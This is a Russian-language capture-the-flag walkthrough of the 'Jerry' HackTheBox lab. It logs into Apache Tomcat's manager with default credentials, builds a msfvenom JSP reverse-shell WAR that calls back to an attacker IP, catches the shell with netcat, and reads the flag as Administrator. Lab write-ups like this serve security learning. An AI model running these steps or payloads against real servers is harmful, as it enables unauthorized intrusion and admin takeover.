



# 🟢 Jerry(Windows, Easy)



### Содержание:

В самом начале мы сканируем порты и обнаруживаем только один порт. На данном порту расположен tomcat. Используя дефолтные значения, заходим в панель tomcat и загружаем туда war-эксплоит, который даст нам реверс шелл, который будет уже с правами админа.

### Сканируем порты с помощью nmap:

```
$ nmap -sC -sV -Pn 10.10.10.95 -oN nmap
```

```
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Apache Tomcat/7.0.88
|_http-server-header: Apache-Coyote/1.1
```

### Входим с помощью дефолтных данных:

На 8080 порту мы видим tomcat:



Можем перейти на /manager/html и использовать дефолтные креды, чтобы попасть в панель админа:

`tomcat:s3cret`

.png>)

### Создаем war эксплоит с помощью msfvenom:

```
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.16.43 LPORT=9898 -f war > shell.war
```

Загружаем в tomcat:


Ставим листенер:

```
$ nc -nlvp 9898
```

### Запускаем эксплоит и получаем администратора:

Заходим по [http://10.10.10.95:8080/shell](http://10.10.10.95:8080/shell) и получаем шелл. Изначально оболочка получается сразу от имени админа, можно прочитать файл с флагом с помощью данной команды:

```
C:\Users\Administrator\Desktop\flags>type "C:\Users\Administrator\Desktop\flags\2 f
type "C:\Users\Administrator\Desktop\flags\2 for the price of 1.txt"
```


